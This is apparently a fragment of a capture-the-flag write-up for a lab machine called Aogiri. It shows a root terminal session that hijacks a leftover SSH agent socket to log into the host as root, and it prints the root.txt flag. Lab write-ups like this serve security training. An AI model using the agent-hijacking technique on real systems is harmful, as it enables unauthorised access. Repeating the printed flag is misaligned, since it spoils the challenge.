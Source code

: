 ```bash
root@kaneki-pc:/tmp# cd ssh-GGoXs4gR36/
root@kaneki-pc:/tmp/ssh-GGoXs4gR36# ls
agent.291
root@kaneki-pc:/tmp/ssh-GGoXs4gR36# export SSH_AUTH_SOCK=agent.291 
root@kaneki-pc:/tmp/ssh-GGoXs4gR36# ssh -p 2222 172.18.0.1
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

155 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Oct 19 22:36:01 2019 from 172.18.0.200
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Aogiri:~# ls
log.sh  root.txt
root@Aogiri:~# cat root.txt 
7c0f11041f210f4fadff7c077539e72f
root@Aogiri:~# 
```
![](pics/killer.gif)

